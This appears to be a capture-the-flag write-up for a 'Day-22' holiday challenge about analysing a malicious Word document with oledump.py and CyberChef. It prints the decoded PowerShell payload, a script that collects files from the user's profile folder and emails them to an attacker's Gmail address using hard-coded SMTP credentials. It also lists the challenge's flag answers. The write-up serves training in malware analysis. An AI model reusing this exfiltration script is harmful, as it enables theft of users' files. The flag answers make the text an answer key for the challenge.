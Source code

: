 ## TASK-1/2/3/4 What is the username, password, subject, port?

Boot up the machine and inside the Tools folder we have a a tool called OleDump.py which will help us in dumping the OLE.<br>
Run this command ```oledump.py -d -s 8 ../../Santa_Claus_Naughty_List_2021/Santa_Claus_Naughty_List_2021.doc``` and grab the base64 value.<br>
Open your browser and go to [CyberChef](https://gchq.github.io/CyberChef). Paste in the copied string and add custom rules as.

1) From Base64
2) XOR keyvalue-35 (Decimal)
3) From Base64

and you should have the decoded powershell string.

```powershell
#Credits goes to @ManiarViral (https://twitter.com/maniarviral) for writing this awesome RAT!

$username="Grinch.REDACTED.2021@gmail.com"
$password="S@ntai$REDACTEDt0wn"
$smtpServer = "smtp.gmail.com"
$msg = new-object Net.Mail.MailMessage

$smtp = New-Object Net.Mail.SmtpClient($SmtpServer, REDACTED) 

$smtp.EnableSsl = $true

$smtp.Credentials = New-Object System.Net.NetworkCredential($username,$password)


$msg.From = "santaspresentsdelivery@gmail.com"

$msg.To.Add("Grinch.Enterprises.2021@gmail.com")

$msg.Body="Your presents have arrived!"

$msg.Subject = "REDACTED"

$files=Get-ChildItem "$env:USERPROFILE\REDACTED\Grinch2021\"

Foreach($file in $files)
{
$attachment = new-object System.Net.Mail.Attachment -ArgumentList $file.FullName
$msg.Attachments.Add($attachment)

}
$smtp.Send($msg)
$attachment.Dispose();
$msg.Dispose();
```

## TASK-5 What is the flag hidden found in the document that Grinch Enterprises left behind? 

Run the command ```oledump.py -d -s 7 ../../Santa_Claus_Naughty_List_2021/Santa_Claus_Naughty_List_2021.doc``` and get the flag from Caption. ```YouREDACTEDCookie```

## TASK-6 There is still a second flag somewhere... can you find it on the machine?

Note that there is a path to files in the script. Go to the path and inside the ```flag2``` file you have your flag.

<h3><b>That's it for Day-22. Happy Hacking!</b></h3>

